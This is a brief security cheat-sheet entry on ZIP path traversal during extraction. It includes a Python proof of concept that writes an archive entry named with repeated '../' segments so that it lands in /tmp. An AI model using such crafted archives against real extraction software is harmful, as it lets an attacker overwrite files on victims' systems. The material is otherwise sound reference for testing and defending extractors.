 ZIP
===

## Exploit Path Traversal on decompress
Some programs do not check the zip path while extracting the archive.
Then it's possible to exploit this to extract a file to a custom location.

```python
import os
import zipfile

def zip(dst):
  zf = zipfile.ZipFile('%s.zip' % dst, 'w', zipfile.ZIP_DEFLATED)
  zf.writestr('../../../../../../../tmp/test.txt', 'toto')

if __name__ == '__main__':
    zip('test')
```